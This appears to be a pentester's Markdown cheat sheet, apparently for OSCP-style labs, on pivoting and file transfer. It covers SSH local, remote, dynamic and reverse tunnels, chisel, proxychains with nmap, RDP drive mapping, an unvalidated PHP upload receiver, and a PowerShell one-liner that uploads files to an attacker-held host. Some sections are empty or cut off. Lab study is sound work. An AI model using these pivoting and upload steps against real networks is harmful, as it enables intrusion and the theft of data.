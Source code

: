 # Tunnel Proxy Transfer

## Tunnel

### chisel

<https://github.com/jpillora/chisel>

chisel 是一个用于创建隧道的工具，它可以通过HTTP代理或者SOCKS5代理来创建隧道。

### ssh

#### local port forwarding

```bash
sudo ssh -N -L 127.0.0.1:8080:192.168.18.1:80 kali@127.0.0.1
```

#### remote port forwarding

```bash
sudo ssh -N -R 172.16.8.144:7070:192.168.18.1:80 kali@172.16.8.144
```

#### ssh tunnel

##### dynamic ssh tunnel

```bash
ssh -N -D 127.0.0.1:9090 yuanfh@172.16.8.136
```

##### reverse ssh tunnel

```bash
ssh -N -R 9090 kali@172.16.8.144
```

#### plink

```cmd


## Proxy

### proxychains

nmap -sT means TCP connect scan, you shuld add -sT when you use proxychains to scan.

```bash
proxychains nmap -sT -vv 192.168.18.1
```

## Transfer

### download

#### rdp

```bash
xfreerdp /u:offsec /p:lab /v:192.168.159.61 /drive:home,/home/parallels/Downloads
```

### upload

#### appache php server

/var/www/html/upload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

```powershell
powershell (new-object System.Net.WebClient).UploadFile('http://172.16.8.144/upload.php', 'C:\Users\Public\nc.exe')
```

## Tips

1.
